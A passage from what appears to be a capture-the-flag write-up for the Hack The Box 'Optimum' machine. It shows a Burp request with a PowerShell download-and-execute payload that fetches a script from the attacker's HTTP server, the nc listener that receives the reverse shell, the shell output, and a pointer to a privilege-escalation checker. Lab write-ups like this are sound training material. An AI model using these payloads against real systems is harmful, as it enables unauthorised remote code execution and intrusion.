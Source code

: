 That's my IP and port I want to connect to. Open another terminal and start an HTTP Server:

```text
root@kali:~/htb/optimumh# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Open another terminal and start a NC listening session, ready to connect to:

```text
nc -lvnp 1337
listening on [any] 1337 ...
```

## Initial Shell

Go back to Burp Repeater and change command to this:

```text
GET /?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1').}
```

Then hit ctrl-u to URL encode it:

```text
/?search=%00{.exec|c%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.22%3a8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1
```

Now press Go on Burp, then switch to my HTTP server, where we should have a connection:

```text
10.10.10.8 - - [23/Jul/2019 22:39:30] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

That worked, so switch to my waiting NC listener and we should have a shell connected:

```text
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\kostas\Desktop> whoami
optimum\kostas
PS C:\Users\kostas\Desktop>systeminfo 
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```

## Privilege Escalation

To check for vulnerabilities we can get [this](https://github.com/rasta-mouse/Sherlock) PowerShell script, to quickly find missing software patches for local privilege escalation vulnerabilities.
